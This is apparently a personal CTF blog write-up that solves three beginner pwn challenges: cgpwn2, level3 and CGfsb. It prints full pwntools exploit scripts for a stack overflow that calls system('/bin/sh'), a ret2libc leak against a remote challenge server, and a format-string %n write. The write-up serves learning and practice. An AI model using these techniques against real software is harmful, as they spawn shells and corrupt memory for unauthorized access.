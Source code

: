 ```yaml
---
title: "Pwn - cgpwn2 | level3 | CGfsb WriteUps" 
date: 2021-12-30
tags: ['CTF', 'Pwn', 'writeup', 'wp']
authors: [nova]
---
```


## cgpwn2 | level3 | CGfsb

### **Miscellaneous**

Due to a lot of things happening in the past half month (switching major to APEX, midterm exams), and encountering problems with the new environment, there hasn't been much content related to CTF. However, there hasn't been much progress in other areas either.

Another competition is coming up soon, so I thought of quickly revisiting a few simple stack-related challenges, cramming for it in a hurry.

Initially, I intended to write a detailed write-up for each question, but it seems more basic, so I combined them all together.

<!--truncate-->

### **cgpwn2**

Directly check with checksec/ida.

![https://cdn.ova.moe/img/image-20211112104246870.png](https://cdn.ova.moe/img/image-20211112104246870.png)

![https://cdn.ova.moe/img/image-20211112105108027.png](https://cdn.ova.moe/img/image-20211112105108027.png)

![https://cdn.ova.moe/img/image-20211112112126099.png](https://cdn.ova.moe/img/image-20211112112126099.png)

The intention of this challenge is quite clear: input the command ("/bin/sh") through the first `gets`, cause overflow in the second `gets`, and then call the `system` function.

> system + return address + command

So, identify the offset and addresses, and easily write the exploit:

```python
from pwn import *

context(log_level='debug')

r = process('./53c24fc5522e4a8ea2d9ad0577196b2f')

r.recvuntil('your name\\n')
r.sendline(b'/bin/sh')

cmd_addr = 0x0804A080
system_addr = 0x08048420
payload = b'A'*0x2A + p32(system_addr) + p32(0) + p32(cmd_addr)

r.recvuntil('here:\\n')
r.sendline(payload)
r.interactive()
```

Obtained flag: `cyberpeace{53e372c0f3209a11ef4429e8e2546bbf}`

### **level3**

From the description of the challenge, it seems to be an ret2libc problem, and this is my first libc leakage, so let's focus on that.

> References: CTF-WIKI

After downloading, there is a gzipped file which contains both a `.so` file and an ELF file.

(For some reason, when I extracted it using tar, the name couldn't be auto-completed, so I ended up manually generating a 32-bit MD5 file name.)

As usual, let's check with checksec (for some reason, symbolic links don't seem to work, it's frustrating me).

![https://cdn.ova.moe/img/image-20211112114145579.png](https://cdn.ova.moe/img/image-20211112114145579.png)

![https://cdn.ova.moe/img/image-20211112140131570.png](https://cdn.ova.moe/img/image-20211112140131570.png)

First, the exploit:

```python
from pwn import *

context(log_level="DEBUG")
# r = process("./level3")
r = remote("111.200.241.244", 53829)
elf = ELF("./level3")
libc = ELF("./libc_32.so.6")

write_plt = elf.plt["write"]
write_got = elf.got["write"]
func = elf.sym["vulnerable_function"]

payload1 = b'a'*0x88 + b'aaaa' + p32(write_plt) + p32(func) + p32(1) + p32(write_got) + p32(4)
r.recvuntil("Input:\\n")
r.sendline(payload1)

write_addr = u32(r.recv(4))

write_libc = libc.sym["write"]
system_libc = libc.sym["system"]
bin_sh_libc = next(libc.search(b"/bin/sh"))
print('write_addr: ', hex(write_addr))

libc_base = write_addr - write_libc
system_addr = libc_base + system_libc
bin_sh_addr = libc_base + bin_sh_libc

print('bin_sh_addr: ', hex(bin_sh_addr))
print('system_addr: ', hex(system_addr))

payload2 = b'a'*0x88 + b'aaaa' + p32(system_addr) + p32(0) + p32(bin_sh_addr)
r.recvuntil("Input:\\n")
r.send(payload2)
r.interactive()
```

There is a strange occurrence here. While writing the exploit, I was using Python 3.10.0, but this exploit wouldn't work locally. When I switched to Python 2, it worked. The only code change made was in `bin_sh_libc`, using `generator.next()` in Python 2 and `next(generator)` in Python 3, yet the results were the same.

I compared the final payload printout between Py2 and Py3, but found no discernible difference (visually). However, the Py3 remote execution was successful. Mysterious expert-level stuff, I suppose.

### **Analysis**

The entire program is very simple, with only a `vulnerable_function` that can be exploited. The program doesn't directly use the `system` function, hence the natural progression towards GOT table leakage.

Thanks to libc's lazy binding mechanism, if we know the address of a function in libc, we can calculate the offset by subtracting its address in the program from its address in libc. Moreover, since the relative offsets of functions within the libc.so shared library are fixed, after obtaining the offset and the address of the desired function in libc, we can determine its address in the program.

```python
payload1 = b'a'*0x88 + b'aaaa' + p32(write_plt) + p32(func) + p32(1) + p32(write_got) + p32(4)
```

Looking at `payload1`, after filling the buffer, the crucial part is setting the return address:

First, overwrite it with `write_plt`, then set `func` as the return address of `write` function. Next, fill in the three parameters for `write`. This approach allows us to capture the address of write in the GOT after write completes.

Next, calculate the offset and find the address, as explained in the exploit.

The program runs to the `read()` function again, making it easy to overwrite a `system` function address there.

### **CGfsb**

![https://cdn.ova.moe/img/image-20211112141233440.png](https://cdn.ova.moe/img/image-20211112141233440.png)

Clearly a FormatString challenge.

The aim is to ensure that the variable `pwnme` at address `0x0804A068` is set to 8.

First, identify the position of the format string argument.

```python
from pwn import *

context(log_level="DEBUG")
r = process("./e41a0f684d0e497f87bb309f91737e4d")

r.sendlineafter("your name:\\n", p32(0x0804A068))
r.recvuntil('please:\\n')
r.sendline(b'AAAA' + b'%x.'*0x10)
r.recvuntil("is:\\n")
print(r.recv())
```

![https://cdn.ova.moe/img/image-20211112142129570.png](https://cdn.ova.moe/img/image-20211112142129570.png)

We can see `41414141` is at the tenth argument position. So, we just need to write the address of `pwnme` and use `%n` to write 8 to it.

The final exploit:

```python
from pwn import *

context(log_level="DEBUG")
r = process("./e41a0f684d0e497f87bb309f91737e4d")

r.sendlineafter("your name:\\n", p32(0x0804A068))
r.recvuntil('please:\\n')
r.sendline(p32(0x0804A068) + b'AAAA' + b'%10$n')
r.interactive()
```

With this, the journey in the beginner section of PWN area concludes. Not an easy journey indeed. 🥵

<!-- AI -->
